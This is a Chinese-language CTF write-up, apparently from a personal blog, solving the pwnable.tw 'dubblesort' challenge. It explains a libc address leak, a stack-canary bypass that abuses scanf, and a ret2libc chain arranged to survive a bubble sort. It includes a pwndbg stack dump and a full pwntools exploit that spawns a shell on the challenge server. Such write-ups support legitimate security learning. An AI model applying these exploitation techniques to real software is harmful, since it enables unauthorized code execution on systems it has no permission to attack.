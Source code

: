 ```yaml
---
Layout: Post
title: pwnable.tw dubblesort
date: 2022-08-06 07:49:02
tags: pwnable.tw
---
```

难度不大的一关，而且网上有比我的做法更简单（但具有技巧性）的做法。
但是还是做了好久好久……不是耗在题目上，主要是耗在搞libc版本上。

## 题目

保护全开的i386程序。
首先提示输入姓名，用read读取，并用 `printf("...%s...", buf)` 打印出来（这种形式没办法利用格式化字符串漏洞）。
然后提示输入数组大小和数据，在循环中用 `scanf("%u", a[i])` 读取，数组大小无极限（但循环变量用寄存器表示，无法跳过某地址读写）。
最后**对数组进行冒泡排序**，并将排序后的数组一个一个输出。

<!-- more -->

本题有两个漏洞：

1. read读取数据时不会自动补上 `\0`，所以打印的时候可以泄露一些栈上的数据。（但由于大小控制良好，无法栈溢出，无法泄露canary）
2. 数组大小无极限，可以进行栈溢出。

问题主要是：

1. 栈上有哪些数据可供泄露？
2. 如何应对canary？
3. 如何让我的gadget在经过排序后仍旧待在正确的位置？

### 第一个问题：泄露数据

由于这是俺第一次做提供了libc的题目，我前前后后摸索了很久。

本题栈上数据有很多，我选择泄露libc里的一个地址。
本地环境下，这个地址是GOT，然而在线环境下同一个位置的值变了，好在仍然是libc里的某地址，现场计算一下偏移仍然可以用：

```python
print(io.recvS())
io.send(b'a'*4*7 + b'\x01')
mes = io.recvrepeat(1)
libc_base = unpack(mes[34:34+4])-0x1 - libc_offset
print(hex(libc_base))
```

### 第二个问题：如何应对canary

看网上大佬的wp，可以利用单个的"+"或者"-"来欺骗 `scanf("%u", a[i])` ，引发“读取成功但读个寂寞”的效果，这是因为scanf会将这俩当作数字的正负号来对待。
这是一个技巧性很强的trick，我没有想到。我的方法是在读取数据循环到canary的位置的时候，输入一个任意非数字字符串（"stop"），由于程序没有写清空输入流的操作，所以包括该scanf之内的所有后续scanf都会跳过，引发“读取失败且读个寂寞”效果。

采用这种方法，就可以在保留canary在栈上的情况下，通过之后的冒泡排序，将比canary大的数据移动到canary之后。
但是缺点是canary之后的数据无法覆盖，只能想办法应付。

### 第三个问题：如何应对/利用冒泡排序

本题的冒泡排序将大的数字移到上边（地址高位），小的数据移到下面。
采用上述的应对canary方法，有一些数据是无法进行覆盖的，排序的时候必须考虑这些已有数据。

```gdb
pwndbg> stack 50
00:0000│ esp 0xffffce30 —▸ 0xffffce4c ◂— 0x1
01:0004│     0xffffce34 ◂— 0x1
02:0008│     0xffffce38 ◂— 0x0
03:000c│     0xffffce3c —▸ 0xf7ffdc08 —▸ 0xf7fd7000 ◂— jg     0xf7fd7047
04:0010│     0xffffce40 —▸ 0xf7ffcd00 (_rtld_global_ro) ◂— 0x0
05:0014│     0xffffce44 —▸ 0xffffcf6c —▸ 0xffffd184 ◂— 'HTTP_PROXY=http://192.168.21.1:7890/'
06:0018│     0xffffce48 ◂— 0x1
（以下为数组开始处）
07:001c│     0xffffce4c ◂— 0x1
08:0020│ edi 0xffffce50 —▸ 0xf7ffddd8 —▸ 0xf7ffdd64 —▸ 0xf7ffdc1c —▸ 0xf7ffdc08 ◂— ...
09:0024│     0xffffce54 —▸ 0xffffcea0 ◂— 0x1
0a:0028│     0xffffce58 ◂— 0x0
... ↓        2 skipped
0d:0034│     0xffffce64 —▸ 0xffffd151 ◂— '/home/nss/Desktop/pwnable.tw/dubblesort/dubblesort'
0e:0038│     0xffffce68 —▸ 0xf7fcd000 ◂— 0x1afdb0
0f:003c│     0xffffce6c ◂— 0x6b63614a ('Jack')
10:0040│     0xffffce70 —▸ 0xffff0a79 ◂— 0x0
11:0044│     0xffffce74 ◂— 0x2f /* '/' */
12:0048│     0xffffce78 ◂— 0x50 /* 'P' */
13:004c│     0xffffce7c —▸ 0xf7eac82f ◂— add    edi, 0x1207d1
14:0050│     0xffffce80 ◂— 0x1
15:0054│     0xffffce84 ◂— 0x8000
16:0058│     0xffffce88 —▸ 0xf7fcd000 ◂— 0x1afdb0
17:005c│     0xffffce8c —▸ 0x56555601 ◂— add    ebx, 0x199f
18:0060│     0xffffce90 —▸ 0x565557a9 ◂— add    ebx, 0x17f7
19:0064│     0xffffce94 —▸ 0x56556fa0 ◂— 0x1ea8
1a:0068│     0xffffce98 ◂— 0x1
1b:006c│     0xffffce9c —▸ 0x56555b72 ◂— add    edi, 1
1c:0070│     0xffffcea0 ◂— 0x1
1d:0074│     0xffffcea4 —▸ 0xffffcf64 —▸ 0xffffd151 ◂— '/home/nss/Desktop/pwnable.tw/dubblesort/dubblesort'
1e:0078│     0xffffcea8 —▸ 0xffffcf6c —▸ 0xffffd184 ◂— 'HTTP_PROXY=http://192.168.21.1:7890/'
（以下为canary以及无法覆盖的数据）
1f:007c│     0xffffceac ◂— 0xadd66300
20:0080│     0xffffceb0 —▸ 0xf7fcd3dc —▸ 0xf7fce1e0 ◂— 0x0
21:0084│     0xffffceb4 —▸ 0xffffd14b ◂— 'i686'
22:0088│     0xffffceb8 —▸ 0x56555b2b ◂— add    ebx, 0x1475
23:008c│     0xffffcebc ◂— 0x0
24:0090│     0xffffcec0 —▸ 0xf7fcd000 ◂— 0x1afdb0
25:0094│     0xffffcec4 —▸ 0xf7fcd000 ◂— 0x1afdb0
26:0098│ ebp 0xffffcec8 ◂— 0x0
27:009c│     0xffffcecc —▸ 0xf7e35637 (__libc_start_main+247) ◂— add    esp, 0x10
28:00a0│     0xffffced0 ◂— 0x1
29:00a4│     0xffffced4 —▸ 0xffffcf64 —▸ 0xffffd151 ◂— '/home/nss/Desktop/pwnable.tw/dubblesort/dubblesort'
2a:00a8│     0xffffced8 —▸ 0xffffcf6c —▸ 0xffffd184 ◂— 'HTTP_PROXY=http://192.168.21.1:7890/'
2b:00ac│     0xffffcedc ◂— 0x0
... ↓        2 skipped
2e:00b8│     0xffffcee8 —▸ 0xf7fcd000 ◂— 0x1afdb0
2f:00bc│     0xffffceec —▸ 0xf7ffdc04 ◂— 0x0
30:00c0│     0xffffcef0 ◂— 0x1
31:00c4│     0xffffcef4 ◂— 0x0
```

我把（栈上的）数据由小到大分为5类：

1. 极小值：0或1
2. 代码段：0x56xxxxxx
3. canary：随机，但可以假设大小在该位置
4. libc代码地址：0xf7xxxxxx，比如 `__libc_start_main`
5. 极大值：libc的got及以上的地址。（libc的RW段、程序的栈地址等）

而ROP用到的gadget地址（`system` 和 `"/bin/sh"`）都位于4、5中间，也就是大于 `__libc_start_main`，小于libc的got。

简单思考一下：极大值一定会排在最后，因此我们要达到的效果是（注意32位函数调用规则，地址后面是返回地址，然后才是函数参数）：

```
esp+0x1c | 0, 1......
...
esp+0x78 | 0x56xxxxxxxx
esp+0x7c | canary
esp+0x80 | libc_start_main or libc_base or whatever （I just used system）
...
ebp+0x04 | system
ebp+0x08 | system(ret_addr)
ebp+0x0c | "/bin/sh\x00"
esp+0x10 | big value like libc_got
...
```

按照这个效果，进行一下不可控数据中极大值和极小值的配平（过程略），就可以计算出需要输入哪些数据。
exp脚本如下：

```python
from pwn import *
context.arch='i386'
context.log_level='debug'

filename="./dubblesort"
# io = process([filename], env={"LD_PRELOAD":"./libc_32.so.6"})
elf=ELF(filename)

libc_name="./libc_32.so.6"
libc=ELF(libc_name)

io = remote('chall.pwnable.tw', 10101)

# g = gdb.attach(io, """b *main+245
# commands
#  stack 50
# end""")

def send_d(data):
 io.sendlineafter(b": ", str(data).encode('ascii'))

libc_offset = 0x1b0000 - 0x1e00
sys_offset = 0x3a940
sh_str_offset = 0x158e8b

print(io.recvS())
io.send(b'a'*4*7 + b'\x01')
mes = io.recvrepeat(1)
libc_base = unpack(mes[34:34+4])-0x1 - libc_offset
print(hex(libc_base))

io.sendline(b'43')

for i in range(0, 15):
 send_d(1)
for i in range(0, 8):
 send_d(libc_base + sys_offset)
send_d(libc_base + sh_str_offset)
io.sendlineafter(b": ", b"stop")

io.interactive()
```

